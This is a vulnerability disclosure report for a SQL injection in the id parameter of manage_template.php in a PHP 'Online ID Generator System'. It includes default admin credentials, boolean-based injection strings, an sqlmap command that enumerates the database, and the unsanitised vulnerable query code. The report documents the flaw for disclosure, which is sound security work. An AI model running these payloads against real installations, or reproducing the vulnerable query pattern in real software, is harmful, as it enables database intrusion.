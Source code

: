 # [Online ID Generator System-SQL Injection-manage_template.php-id]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.sourcecodester.com/php/14917/online-id-generator-system-using-php-free-source-code.html

**[Affected Version]:** Online ID Generator System V1.0

**[Test Environment]:** windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"id_generator_db"**.

5. **Import** the provided **`SQL`** file. The file is known as **`id_generator_db.sql`** located inside the **database** folder.

6. **Browse** the **Online ID Generator System** in a **browser**. i.e. **`http://localhost/id_generator`**.

   **Admin Access Information:**

   Username: **admin**
   Password: **admin123**

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://localhost/id_generator/admin/?page=templates/manage_template&id=1`    

**[Vulnerability Location]:** id_generator/admin/templates/manage_template.php

**[Vulnerability Test]:**

1. When you enter `1' and '1'='1` in the `id` parameter, the page displays as follows:

   ![](../../img/20240623010334.png)

   

2. When you enter `1' and '1'='2` in the `id` parameter, the page displays as follows:

   ![](../../img/20240623010439.png)

3. Testing with sqlmap

   ```
   python sqlmap.py -u "http://localhost/id_generator/admin/?page=templates/manage_template&id=1" -p "id" --cookie="PHPSESSID=c6ikif3reuhfclaa66bo04s2sj" --current-db
   ```

   ![](../../img/20240623010900.png)

**[code analysis]:**

id_generator/admin/templates/manage_template.php

```php
<?php 
    if(isset($_GET['id']) && $_GET['id'] > 0){
        $user = $conn->query("SELECT * FROM `id_format` where id ='{$_GET['id']}'");
        foreach($user->fetch_array() as $k =>$v){
            $$k = $v;
        }
    }
?>
```

The GET parameter `id` is obtained without any filtering and spliced directly into the sql execution statement, and then a different page response exists depending on the result of the execution.